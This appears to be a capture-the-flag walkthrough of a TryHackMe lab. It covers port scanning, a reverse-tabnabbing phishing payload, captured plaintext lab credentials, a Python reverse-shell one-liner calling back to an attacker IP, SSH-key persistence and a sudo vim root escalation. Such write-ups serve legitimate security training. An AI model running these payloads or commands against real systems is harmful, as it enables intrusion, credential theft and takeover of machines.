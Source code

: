 
>"Reverse tabnabbing is an attack where a page linked from the target page is able to rewrite that page, for example to replace it with a phishing site. As the user was originally on the correct page they are less likely to notice that it has been changed to a phishing site, especially if the site looks the same as the target. If the user authenticates to this new page then their credentials (or other sensitive data) are sent to the phishing site rather than the legitimate one."
https://owasp.org/www-community/attacks/Reverse_Tabnabbing
# Rustscan
```bash
rustscan -a 10.10.184.22 --ulimit 7000 -- -sC -sV   
```
### Open Ports
HTTP:80 | Apache httpd 2.4.41 ((Ubuntu))
SSH:22 | OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)

# Gobuster
```bash
gobuster dir -u http://10.10.184.22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 
```
## Directories 

| Directories | Status Code | Full-URL                   |
| ----------- | ----------- | -------------------------- |
| /admin      | 312         | http://10.10.184.22/admin/ |

# Enumeration
## Exploitting underscore blank
https://book.hacktricks.xyz/pentesting-web/reverse-tab-nabbing

Start a python server on port 80 and 8000
```bash
nano mal.html
```
```html
<!DOCTYPE html>
<html>
 <body>
  <script>
  window.opener.location = "http://10.6.53.104:8000/malicious_redir.html";
  </script>
 </body>
</html>
```

```bash
nano login.html
```

Take the source page of the login form
```html
<!DOCTYPE html>
<html lang="en">   
<head>
    <meta charset="UTF-8">
    <title>Welcome</title>     
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">                                               
    <style>
        body{ font: 14px sans-serif; text-align: center; }    
    </style>     
</head>
<body>
	<h1 class="my-5">Hello, <b>test</b>! Welcome to our free blog promotions site.</h1>                                         
    <h1 class="my-5">Please submit your link so that we can get started.<br> All links will be reviewed by our admin who also built this site!</h1>
    <form action="" method="post">          
                <label for="link">Blog Link:</label>
                <input type="text" placeholder='http://visitme.com/' id="link" name="url"><br><br>
                <input type="submit" name="submit" value="Submit">
                <br>
                <br>
                <p>Thank you for your submission, you have entered: <a href='http://10.6.53.104:8000/mal.html' target='_blank' >Here</a></p>    </form> 
    <br>
    <p>
        <a href="reset-password.php" class="btn btn-warning">Reset Your Password</a>
        <a href="logout.php" class="btn btn-danger ml-3">Sign Out of Your Account</a>
    </p>

</body>
</html>
```

# Wireshark
Using Wireshark, we can easily see the username and password of the user.

![Pasted image 20240617150919](https://github.com/BGhoster/Write-Ups/assets/43526966/5add2574-50c4-462a-9e36-9e0d9ff69a3c)

### username password
username Daniel
password=C@ughtm3napping123
# User.txt
```bash
ssh daniel@10.10.184.22
```

```bash
id
```


### Finding files with group admin privileges
```bash
find / -group administrators -type f 2>/dev/null
```

or
### PSPY
![Pasted image 20240617152236](https://github.com/BGhoster/Write-Ups/assets/43526966/549e6b64-4711-4f92-bf9a-46eb838f5fc5)

## Getting reverse shell
Add reverse shell to query.py and wait for the shell. We can change this file because we are part of the administrator group.
![Pasted image 20240617153532](https://github.com/BGhoster/Write-Ups/assets/43526966/00ce065d-8511-4676-a5a8-ac9f9228c188)

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.53.104",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```
```bash
rlwrap nc -lvnp 7777
```

## Upgrading to SSH connection
On your attacker machine, enter the following commands to get SSH on victim machine
```bash
ssh-keygen -t rsa
```
```bash
cd .ssh
```
```bash
cat id_rsa.pub
```

On the victim's machine, enter these commands into authorized_keys
```bash
cd .ssh
```
```bash
echo "YOUR id_RSA key" > authorized_keys
```
```bash
ssh adrian@10.10.184.22
```

```bash
cat user.txt
```
	THM{REMOVED}

## Privilege Escalation 
```bash
sudo -l
```
![Pasted image 20240617154627](https://github.com/BGhoster/Write-Ups/assets/43526966/ad73d5fc-85ca-4a9f-b18e-6955b05603fa)

```bash
sudo vim -c ':!/bin/sh'
```
```bash
cd /root; cat root.txt
```
	THM{REMOVED}


Resources
https://www.linkedin.com/pulse/writeup-napping-tryhackmethm-medium-vojt%25C4%259Bch-tr%25C4%258Dka-mjmbf/
https://owasp.org/www-community/attacks/Reverse_Tabnabbing
